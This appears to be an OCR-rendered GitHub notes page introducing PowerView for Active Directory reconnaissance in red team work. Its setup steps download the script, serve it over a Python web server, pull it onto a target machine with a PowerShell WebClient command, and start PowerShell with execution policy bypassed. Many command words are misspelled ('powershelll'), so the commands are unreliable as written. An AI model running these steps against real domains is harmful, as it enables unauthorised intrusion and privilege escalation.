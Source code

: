 ## PowerView - Active Directory Enumeration

*   [PowerSploit Recon Docs]()
*   [PowerSploit Github]()
  
---

### What is PowerView?

**PowerView** is a powershelll-based tool for gaining network situational awarness on windows domains

*   It acts as a **powershelll alternative** to ``net*`` commands
*   Leverages **powershelll AD hooks** and underlying **Win32 API functions** to interact with Active Directory.
*   Ideal for **reconnaissance** and **privilege escalation** during red team engagement
  
---

### Setup

1.  Download PowerView

```bash
mkdir /opt/ADtools
```

```bash
cd /opt/ADtools
```

```bash
wget https://raw.githubusercontent.com/powershelllMafia/PowerSploit/master/Recon/Powerview.ps1
```

2.  Host PowerView using python HTTP server

```bash
python3 -m http.server
```

3.  Transfer PowerViewto target Machine

```bash
powershelll (New-Object System.Net.WebClient).DownloadFile('url','PowerView.ps1')
```

4.  Execute Policy Bypass

```bash
powershelll -nop -ep bypass
```

5.  Import PowerView

To load all PowerView functions into the currentsessions:

```powershelll
Import-Module .\PowerView.ps1
```
